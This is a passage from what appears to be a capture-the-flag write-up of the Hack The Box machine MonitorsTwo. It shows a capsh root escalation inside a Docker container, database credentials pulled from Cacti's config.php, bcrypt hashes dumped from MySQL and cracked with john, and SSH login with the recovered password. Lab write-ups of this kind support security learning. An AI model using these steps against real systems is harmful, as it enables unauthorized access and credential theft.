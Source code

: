 Running `capsh --gid=0 --uid=0 --` does indeed work and elevates me to root. This is great, however, we are still in a docker container and need to escape onto the host.
```
www-data@50bca5e748b0:/tmp$ capsh --gid=0 --uid=0 --  
root@50bca5e748b0:/tmp# whoami
root
```

## Docker Pivot 

Because we got a shell as `www-data` this docker container is hosting the Cacti application. Often web applications' source code contains secrets/passwords that connect to other services, like a database. Inside the Cacti source code, I found a file called `config.php` and it contained some creds for `mysql`. These databases are always worth looking at in a real engagement as they might contain valuable information. They can still be helpful in CTF like HTB to help pivot as well. This particular connection is to another server called `db`. This might be another docker container or the host.
```php
$database_type     = 'mysql';                                    $database_default  = 'cacti';
$database_hostname = 'db';                                       $database_username = 'root';                                     $database_password = 'root';
$database_port     = '3306';                                                               
```

My command to connect to the database was `mysql -u root -p -h db cacti`. Dumping the `user_auth` table shows two usernames with hashed credentials, I cleaned up the output as it was very messy. 
```
MySQL [cacti]> select * from user_auth;
[snip]
admin $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC     marcus $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C  
```

The next step to do after finding a hashed password is to crack it. `$2y$` is a BCrypt hash, they are generally slower to crack (as a security measure), but it still can be done. The Marcus hash did crack after some time to `funkymonkey`. I usually use `hashcat` to crack passwords but I used `john` on this machine as it does not have a GPU and `john` can take advantage of my CPU better to crack these slower hashes like bcrypt.
```
[zonifer@dell monitorsTwo]$ john hash.txt --wordlist=/opt/rockyou.txt   

[snip]

[zonifer@dell monitorsTwo]$ john hash.txt --show
?:funkymonkey
```

That credential (marcus:funkymonkey) can then be used to SSH to the machine as Marcus
```
[zonifer@dell monitorsTwo]$ ssh marcus@10.10.11.211
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 12 Sep 2023 03:46:16 AM UTC

  System load:                      0.0
  Usage of /:                       63.1% of 6.73GB
  Memory usage:                     12%
  Swap usage:                       0%
  Processes:                        230
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
```